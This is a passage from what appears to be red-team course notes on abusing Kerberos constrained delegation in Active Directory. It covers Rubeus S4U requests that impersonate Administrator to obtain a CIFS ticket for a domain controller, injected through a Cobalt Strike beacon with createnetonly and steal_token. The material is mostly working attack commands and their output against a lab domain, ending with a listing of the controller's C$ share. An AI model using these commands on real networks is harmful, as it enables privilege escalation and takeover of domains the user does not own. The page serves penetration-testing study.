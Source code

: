 The `altservice` parameter actually takes a comma-separated list of services, e.g. `/altservice:cifs,host,http`.  This will produce 3 new tickets that you can inject.

```batch
[*] Action: S4U

[*] Building S4U2self request for: 'LON-WS-1$@CONTOSO.COM'
[*] Using domain controller: lon-dc-1.contoso.com (10.10.120.1)
[*] Sending S4U2self request to 10.10.120.1:88
[+] S4U2self success!
[*] Got a TGS for 'Administrator' to 'LON-WS-1$@CONTOSO.COM'
[*] base64(ticket.kirbi):

      doIF8[...snip...]MtMSQ=

[*] Impersonating user 'Administrator' to target SPN 'time/lon-dc-1'
[*]   Final ticket will be for the alternate service 'cifs'
[*] Building S4U2proxy request for service: 'time/lon-dc-1'
[*] Using domain controller: lon-dc-1.contoso.com (10.10.120.1)
[*] Sending S4U2proxy request to domain controller 10.10.120.1:88
[+] S4U2proxy success!
[*] Substituting alternative service name 'cifs'
[*] base64(ticket.kirbi) for SPN 'cifs/lon-dc-1':

      doIGf[...snip...]RjLTE=
```

<figure><img src="../../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

```batch
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:CONTOSO.COM /username:Administrator /password:FakePass /ticket:doIGf[...snip...]RjLTE=

[*] Using CONTOSO.COM\Administrator:FakePass

[*] Showing process : False
[*] Username        : Administrator
[*] Domain          : CONTOSO.COM
[*] Password        : FakePass
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 2548
[+] Ticket successfully imported!
[+] LUID            : 0x9bb752

beacon> steal_token 2548
beacon> ls \\lon-dc-1\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     01/24/2025 13:33:39   $Recycle.Bin
          dir     01/23/2025 13:57:51   $WinREAgent
```